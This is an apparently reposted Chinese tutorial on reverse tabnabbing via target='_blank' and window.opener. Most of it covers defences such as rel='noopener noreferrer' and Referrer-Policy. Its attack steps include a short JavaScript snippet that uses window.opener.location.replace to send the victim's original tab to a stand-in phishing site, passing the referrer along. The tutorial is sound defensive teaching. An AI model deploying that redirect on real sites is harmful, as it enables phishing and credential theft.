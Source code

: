 > 在网页中使用链接时，如果想要让浏览器自动在新的标签页打开指定的地址，通常的做法就是在 `a` 标签上添加 `target="_blank"` 属性。
>
> 然而，就是这个属性，为钓鱼攻击者带来了可乘之机。

# 起源

## `parent` 与 `opener`

在说 `opener` 之前，可以先聊聊 `<iframe>` 中的 `parent`。

我们知道，在 `<iframe>` 中提供了一个用于父子页面交互的对象，叫做 `window.parent`，我们可以通过 `window.parent` 对象来从框架中的页面访问父级页面的 `window`。

`opener` 与 `parent` 一样，只不过是用于 `<atarget="_blank">` 在新标签页打开的页面的。通过 `<atarget="_blank">` 打开的页面，可以直接使用 `window.opener` 来访问来源页面的 `window` 对象。

## 同域与跨域

浏览器提供了完整的跨域保护，在域名相同时， `parent` 对象和 `opener` 对象实际上就直接是上一级的 `window` 对象；而当域名不同时， `parent` 和 `opener` 则是经过包装的一个 `global` 对象。这个 `global` 对象仅提供非常有限的属性访问，并且在这仅有的几个属性中，大部分也都是不允许访问的（访问会直接抛出 `DOMException`）。

![图片](https://mmbiz.qpic.cn/mmbiz_png/uTjO0lw2ibEzEyL0AicRPN97ERDwwZ6r4SLO5lf6l909AJJPcAia6BkS2kuZk2qenL4qbgKhdepGPZN1piblWcciciaQ/640?wx_fmt=png&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1)

![图片](https://mmbiz.qpic.cn/mmbiz_png/uTjO0lw2ibEzEyL0AicRPN97ERDwwZ6r4Se6tLemG6gC481e1xLv4ypnZ2oicGApAlj53C1nuRxWvibcJAvJ35pLiaw/640?wx_fmt=png&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1)

在 `<iframe>` 中，提供了一个 `sandbox` 属性用于控制框架中的页面的权限，因此即使是同域，也可以控制 `<iframe>`的安全性。

# 利用

如果，你的网站上有一个链接，使用了 `target="_blank"`，那么一旦用户点击这个链接并进入一个新的标签，新标签中的页面如果存在恶意代码，就可以将你的网站直接导航到一个虚假网站。此时，如果用户回到你的标签页，看到的就是被替换过的页面了。

## 详细步骤

1. 

   在你的网站 `https://example.com` 上存在一个链接： `html<a href="https://an.evil.site"target="_blank">进入一个“邪恶”的网站</a>`

   

2. 

   用户点击了这个链接，在新的标签页打开了这个网站。这个网站可以通过 HTTP Header 中的 `Referer` 属性来判断用户的来源。

   并且，这个网站上包含着类似于这样的 JavaScript 代码：

   ```
   
   ```

   

3. 1. `consturl=encodeURIComponent('{{header.referer}}');`
   2. `window.opener.location.replace('https://a.fake.site/?'+url);`

4. 

   此时，用户在继续浏览这个新的标签页，而原来的网站所在的标签页此时已经被导航到了 `https://a.fake.site/?https%3A%2F%2Fexample.com%2F`。

   

5. 

   恶意网站 `https://a.fake.site` 根据 Query String 来伪造一个足以欺骗用户的页面，并展示出来（期间还可以做一次跳转，使得浏览器的地址栏更具有迷惑性）。

   

6. 

   用户关闭 `https://an.evil.site` 的标签页，回到原来的网站………………已经回不去了。

   

> 上面的攻击步骤是在跨域的情况下的，在跨域情况下， `opener` 对象和 `parent` 一样，是受到限制的，仅提供非常有限的属性访问，并且在这仅有的几个属性中，大部分也都是不允许访问的（访问会直接抛出 `DOMException`）。
>
> 但是与 `parent` 不同的是，**在跨域的情况下， `opener` 仍然可以调用 `location.replace` 方法**而 `parent` 则不可以。
>
> 如果是在同域的情况下（比如一个网站上的某一个页面被植入了恶意代码），则情况要比上面严重得多。

# 防御

<iframe> 中有 sandbox 属性，而链接，则可以使用下面的办法：

## 1. Referrer Policy 和 noreferrer

上面的攻击步骤中，用到了 HTTP Header 中的 `Referer` 属性，实际上可以在 HTTP 的响应头中增加 `ReferrerPolicy` 头来保证来源隐私安全。

`ReferrerPolicy` 需要修改后端代码来实现，而在前端，也可以使用 `<a>` 标签的 `rel` 属性来指定 `rel="noreferrer"` 来保证来源隐私安全。

```
<a href="https://an.evil.site" target="_blank" rel="noreferrer">进入一个“邪恶”的网站</a>
```

> 但是要注意的是：即使限制了 `referer` 的传递，仍然不能阻止原标签被恶意跳转。

## 2. noopener

为了安全，现代浏览器都支持在 `<a>` 标签的 `rel` 属性中指定 `rel="noopener"`，这样，在打开的新标签页中，将无法再使用 `opener` 对象了，它为设置为了 `null`。

```
<a href="https://an.evil.site" target="_blank" rel="noopener">进入一个“邪恶”的网站</a>
```

## 3. JavaScript

`noopener` 属性看似是解决了所有问题，但是...浏览器的兼容性问题...

![图片](https://mmbiz.qpic.cn/mmbiz_png/uTjO0lw2ibEzEyL0AicRPN97ERDwwZ6r4SPvnh2oKXX25qAo5icwhdU4iczbMRCBOPSBStYQTIia0NIaCso7Pj5mfJg/640?wx_fmt=png&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1)

可以看到，现在绝大多数浏览器都已经兼容了 `rel="noopener"` 属性了。但是，为了保护稍旧的“近代”浏览器或是很旧的“古代”浏览器甚至是“远古”浏览器，只有 `noopener` 属性还是远远不够的。

这时，就只能请出下面这段原生 JavaScript 来帮忙了。

```
"use strict";function openUrl(url) {  var newTab = window.open();  newTab.opener = null;  newTab.location = url;}
```

# 推荐

首先，在网站中的链接上，如果使用了 `target="_blank"`，就要带上 `rel="noopener"`，并且建议带上 `rel="noreferrer"`。类似于这样：

```
<a href="https://an.evil.site" target="_blank" rel="noopener noreferrer">进入一个“邪恶”的网站</a>
```

当然，在跳转到第三方网站的时候，为了 SEO 权重，还建议带上 `rel="nofollow"`，所以最终类似于这样：

```
<a href="https://an.evil.site" target="_blank" rel="noopener noreferrer nofollow">进入一个“邪恶”的网站</a>
```

# 性能

最后，再来说说性能问题。

如果网站使用了 `<atarget="_blank">`，那么新打开的标签页的性能将会影响到当前页面。此时如果新打开的页面中执行了一个非常庞大的 JavaScript 脚本，那么原始标签页也会受到影响，会出现卡顿的现象（当然不至于卡死）。

而如果在链接中加入了 `noopener`，则此时两个标签页将会互不干扰，使得原页面的性能不会受到新页面的影响。

原文链接：https://mp.weixin.qq.com/s/T4jQUdS-rar7hr2EWilJrw

